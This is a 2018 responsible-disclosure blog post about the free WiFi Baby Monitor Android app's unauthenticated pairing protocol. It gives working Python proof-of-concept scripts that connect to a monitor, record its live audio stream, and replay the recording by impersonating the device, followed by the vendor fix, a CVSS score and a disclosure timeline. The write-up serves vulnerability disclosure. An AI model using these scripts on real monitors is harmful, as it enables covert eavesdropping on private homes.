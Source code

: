 ```yaml
---
categories: ["articles"]
tags: ["responsible-disclosure", "mobile"]
date: 2018-02-25T00:00:00Z
title: "Eavesdropping on WiFi Baby Monitor"
url: /2018/02/25/eavesdropping-on-wifi-baby-monitor/
---
```


Written by [Rob](/authors/rob/)

Whilst analysing a number of free communication based applications on the Google Play Store, I took a look at [WiFi Baby Monitor: Free & Lite](https://play.google.com/store/apps/details?id=com.papenmeier.wifibabymonitor.free&hl=en_GB) (the free version of [WiFi Baby Monitor](https://play.google.com/store/apps/details?id=com.papenmeier.wifibabymonitor&hl=en_GB)). Although the premium version offered users the ability to specify a password to be used in the pairing process, the free version offered no such function.

Monitoring the traffic using Wireshark during the pairing process revealed:

* The initial connection is made on port 8257
* To start the pairing process, the same sequence is sent each time
* After the pairing process is finished, another connection is opened to port 8258, where the audio data will be transmitted
* After the connection is made to port 8258, the connection on port 8257 is kept open and used as a heartbeat for the session
* On the heartbeat connection, the client will periodically send `0x01` to the baby monitor (roughly once per second)

## Abusing The Protocol to Record Audio
With the pairing process reversed, it was possible to create a proof of concept which proved that it was possible to deploy a small program into a compromised network which would eavesdrop on a baby monitor and allow for an attacker to play the recording back at a later date at their discretion.

The \[very hacky\] proof of concept code can be found below:

```python
import socket
import sys
import time

if len(sys.argv) < 2:
    print "Usage: python {file} target_ip [port]".format(file = sys.argv[0])
    exit(1)

target = sys.argv[1]
port = 8257

if len(sys.argv) == 3:
    port = int(sys.argv[2])

s = socket.socket()
s.connect((target, port))
s.send('\x01')
s.send('\x02\x64\x00\x00\x00\x13\x2b\x52\x65\x63\x65\x69\x76\x65\x72\x53' +
       '\x74\x61\x72\x74\x5f\x32\x2e\x30\x32\x00\x00\x00\x00\x03\x23\x31' +
       '\x30\x00\x00\x00\x00\x03\x23\x32\x30\x00\x00\x00\x00\x03\x23\x32' +
       '\x31\x00\x00\x00\x00\x03\x23\x32\x32\x00\x00\x00\x00\x03\x23\x32' +
       '\x33')

heartbeat_dump = open('dump.heartbeat.bin', 'wb')
data_dump = open('dump.data.bin', 'wb')

has_data_socket = False
data_socket = socket.socket()
delta = 0

while True:
    time.sleep(1)
    data = s.recv(2048)
    if data is not None:
        heartbeat_dump.write(data)
        print '[*] Received {bytes} bytes on heartbeat socket'.format(bytes = len(data))
        s.send('\x01')

    if has_data_socket:
        data = data_socket.recv(2048)
        if data is not None:
            data_dump.write(data)
            print '[*] Received {bytes} bytes on data socket'.format(bytes = len(data))
            data_socket.send('\x01')
    else:
        print '[*] Establishing data connection'
        data_socket.connect((target, 8258))
        data_socket.send('\x01')
        data_socket.send('\x02\x64\x00\x00\x00\x07\x33\x5f\x5f\x30\x30\x30\x30')
        has_data_socket = True
        print '[*] Established data connection'

    delta += 1

heartbeat_dump.close
data_dump.close
```

This script establishes a connection to the baby monitor and begins to dump out the data from port 8257 to `dump.heartbeat.bin` and the data from port 8258 to `dump.data.bin`.

## Replaying the Recordings
In order to replay the recordings made by the proof of concept, I created a second script which would act as a baby monitor and replay the data back to a client; which allows for replay via the original application:

```python
import socket
import sys
import time

s = socket.socket()
s.bind(('0.0.0.0', 8257))
s.listen(5)
print '[*] Heartbeat socket listening on port 8257'

data_socket = socket.socket()
data_socket.bind(('0.0.0.0', 8258))
data_socket.listen(5)
print '[*] Data socket listening on port 8258'

data = ''
with open('dump.heartbeat.bin', 'r') as replay_file:
    data = replay_file.read()

wav_data = ''
with open('dump.data.bin', 'r') as wav_file:
    wav_data = wav_file.read()

c, addr = s.accept()
print '[*] Connection from {client}'.format(client = addr)
c.send(data)

data_connection, addr = data_socket.accept()
print '[*] Data connection from {client}'.format(client = addr)
data_connection.send(wav_data)

buf_start = 0
buf_end = wav_data.find('\x00\x00\x00\x01', 1)
buf = wav_data[buf_start:buf_end]

while buf is not None:
    c.send('\x01')
    print '[*] Sending {bytes} bytes'.format(bytes = len(buf))
    data_connection.send(buf)
    time.sleep(0.1)

    if buf_end == -1 or buf_start == -1:
        buf = None
    else:
        buf_start = buf_end
        buf_end = wav_data.find('\x00\x00\x00\x01', buf_end + 1)
        if buf_end == -1:
            buf = wav_data[buf_start:]
        else:
            buf = wav_data[buf_start:buf_end]

data_connection.close()
c.close()
print '[*] Connection closed'
```

A demonstration of the replay script accepting a connection from a client and replaying a recording can be seen below:

<iframe src="https://player.vimeo.com/video/258487598" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

## Solution
When notified, the vendor took the \[respectably\] responsible approach and made available to the free version the security features that were previously exclusive to the premium version.

To prevent this attack, users can simply update to the latest version of the application (v2.02.2, at the time of writing this).

## CVSS Score
**CVSS Base Score**: 5.9

**Impact Subscore**: 4.2

**Exploitability Subscore**: 1.6

**CVSS Temporal Score**: 5.3

**Overall CVSS Score**: 5.3

**Vector:** [AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:O/RC:C](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:O/RC:C)

## Disclosure Timeline
* **2018-02-11**: Initial contact with vendor to make them aware of the attack vector
* **2018-02-12**: Vendor acknowledged the issue and provided keys to test the premium version to verify the encryption and password protection would resolve the issue
* **2018-02-15**: Confirmation sent to vendor to let them know the proposed solution should nullify the attack
* **2018-02-16**: Vendor begins roll-out process for the new update
* **2018-02-22**: Roll-out process completed and version 2.02.2 made available to the public
